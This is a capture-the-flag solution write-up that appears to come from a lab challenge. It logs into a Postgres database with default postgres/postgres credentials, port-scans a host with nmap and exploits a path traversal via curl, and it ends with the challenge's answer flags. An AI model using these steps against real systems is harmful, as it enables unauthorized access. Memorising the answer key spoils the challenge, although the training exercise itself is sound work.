 # Who Let Them Be An Admin? Solution

1. Start openVAS with `openvas-start`
2. Copy the link from the terminal and navigate to it in the web browser
3. Check existing reports, see that 10.10.10.60 has a Postgres database running with the username/password postgres/postgres
4. `psql -h 10.10.10.60 -U postgres` in terminal and enter the password in the prompt.
5. `\l` to list databases, see there is a `prescup` database.
6. `\c prescup` to select the `prescup` database.
7. `\dt` to list tables in the selected database. There is a `flag_tbl` table.
8. `select * from flag_tbl;` gives the first flag.
9. `sudo nmap -p0-65535 10.10.10.61` and see that there is one port open between 40000-45000.
10. `curl 10.10.10.61:43210` (example port - the actual port is chosen at random). Read the returned message and get the flag.
11. `curl 10.10.10.61:43210/browse` gives further instructions to add a `path` query string.
12. `curl 10.10.10.61:43210/browse?path=..` Playing around with the path, we can discover that path traversal is possible, so we use this to list the files up one directory. One of the files in the output is the flag.

### Submission

- Database: `75757526b4fab3d3`
- Server Welcome: `ed949cc48bfaf7c5`
- Server Exploit: `7acaae5511311869`